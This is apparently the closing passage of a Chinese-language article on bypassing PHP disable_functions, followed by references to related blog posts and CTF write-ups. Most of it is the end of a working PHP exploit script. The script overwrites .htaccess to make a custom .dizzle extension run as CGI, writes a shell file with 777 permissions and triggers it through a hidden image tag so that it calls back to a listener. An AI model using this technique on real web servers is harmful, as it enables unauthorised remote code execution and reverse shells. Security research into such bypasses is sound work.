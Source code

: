 ```php
    $writable = is_writable('.'); //current dir writable?
    $htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?
        checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");
        checkEnabled("Is writable",$writable,"Yes","No");
        checkEnabled("htaccess working",$htaccess,"Yes","No");
    if(!($modcgi && $writable && $htaccess))
    {
        echo "Error. All of the above must be true for the script to work!"; //abort if not
    }
    else
    {
        checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.
        checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGI\nAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension
        checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file
        checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx
        echo "Executing the script now. Check your listener <img src = 'shell.dizzle' style = 'display:none;'>"; //call the script
    }
}
?>
```

**- 参看 -**

\[1\] [浅谈几种Bypass disable_functions的方法 - Mi1k7ea](https://www.mi1k7ea.com/2019/06/02/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-disable-functions%E7%9A%84%E6%96%B9%E6%B3%95/)

\[2\] [从RCTF nextphp看PHP7.4的FFI绕过disable_functions - Mi1k7ea](https://www.mi1k7ea.com/2019/06/07/%E4%BB%8E%E4%B8%80%E9%81%93%E9%A2%98%E7%9C%8BPHP7-4%E7%9A%84FFI%E7%BB%95%E8%BF%87disable-functions/)

\[3\] [PHP Bypass disabled_functions - Smi1e](https://www.smi1e.top/php-bypass-disabled_functions/)

\[4\] [绕过php的disable_functions - MeetSec](http://47.98.146.200/index.php/archives/47/)

\[5\] [TCTF2019 WallBreaker-Easy 解题分析](https://xz.aliyun.com/t/4688)



